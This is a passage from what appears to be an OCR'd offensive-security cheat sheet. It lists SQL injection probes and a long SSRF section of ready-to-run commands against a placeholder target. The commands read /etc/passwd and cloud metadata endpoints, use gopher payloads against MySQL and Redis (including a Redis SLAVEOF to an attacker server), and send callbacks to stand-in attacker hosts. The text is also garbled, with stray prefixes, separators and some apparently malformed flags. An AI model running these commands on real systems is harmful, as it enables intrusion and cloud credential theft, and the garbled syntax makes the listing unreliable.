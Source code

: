     jsql -u https://target.com/data.jsp?search=admin%25' --blind --string "admin record"
    sqli-detector -u https://target.com/login --data "username=test&password='or sleep(5)--'" --timeout 10
    sqli-detector -u https://target.com/profile.php?user=1' --check-errors --verbose

### 3.4 Server-Side Vulnerabilities


#### 3.4.1 SSRF Testing
    :- Automated SSRF exploitation on 'url' parameter
    ssrfmap -r request_for_ssrf.txt -p url -m http,gopher --lhost your_server_ip 
    
    :- Use Interactsh for OOB detection
    ssrfmap -r req.txt -p file --handler interactsh
    
    :- Attempt to read local files via SSRF
    ssrfmap -r req.txt -p u --module readfiles --lfile /etc/passwd

    
    :- Start Interactsh client for OOB interactions
    interactsh-client
    
    :- Manual SSRF test with Interactsh
    curl -X POST -d "url=http://YOUR_INTERACTSH_ID.oastify.com" https://target.com/proxy 

    
    :- Inject SSRF payloads from file and check status
    qsreplace "http://target.com/proxy?url=FUZZ" -a "ssrf_payloads.txt" | httpx -silent -status-code -mc 200 
    -----
        ssrfmap -r request.txt -p url=https://yourcollab.com
    ssrfmap -r request.txt -p url=https://yourcollab.com -m portscan
    gopherus --exploit mysql
    gopherus --exploit mysql --inject 'curl https://collab.net'
    ground-control -u https://target.com/redirect?url=COLLAB
    qsreplace -a urls.txt -p ssrf_payloads.txt -o ssrf_urls.txt
    ------
    ssrfmap -r request.txt -p url=https://$(whoami).oastify.com -m portscan -ports 80,443,21,22
    ssrfmap -r post_request.txt -p callback=http://your-server.com/receive -X POST
    gopherus --exploit mysql --inject 'SELECT LOAD_FILE("\\\\\\\\evil\\\\\\\\share\\\\\\\\file.txt")' | curl -v --data-urlencode "url=gopher://127.0.0.1:3306/_$(cat -)" https://target.com/proxy
    gopherus --exploit redis --command "SLAVEOF your-server.com 6379" | curl -v --data-urlencode "url=gopher://127.0.0.1:6379/_$(cat -)" https://target.com/api
    ground-control -u https://target.com/redirect?url=file:///etc/passwd -w /usr/share/wordlists/fuzzdb/wordlists-common/file-extensions-common.txt
    ground-control -u https://target.com/proxy?u=http://metadata.google.internal/computeMetadata/v1/project/numeric-project-id
    qsreplace -a urls.txt -p "http://localhost,http://127.0.0.1,file:///,gopher://" -o ssrf_potential.txt
    ------
    ssrfmap -r request.txt -p url=dict://localhost:11211/info -m portscan -ports 1-1000
    ssrfmap -r post_request.txt -p callback=http://[::1]:80/receive -X POST
    gopherus --exploit mysql --inject 'SELECT @@version' | curl -v --data-urlencode "url=gopher://127.0.0.1:3306/_$(cat -)" https://target.com/proxy
    gopherus --exploit redis --command "PING" | curl -v --data-urlencode "url=gopher://127.0.0.1:6379/_$(cat -)" https://target.com/api
    ground-control -u https://target.com/redirect?url=http://169.254.169.254/latest/meta-data/ -w /usr/share/wordlists/fuzzdb/wordlists-common/file-extensions-common.txt -H "X-Forwarded-For: 127.0.0.1"
    ground-control -u https://target.com/proxy?u=http://[0:0:0:0:0:ffff:a9fe:a9fe]/latest/meta-data/
    qsreplace -a urls.txt -p "http://0,http://0.0.0.0,http://[::],file:///,gopher://,ftp://" -o ssrf_bypasses.txt
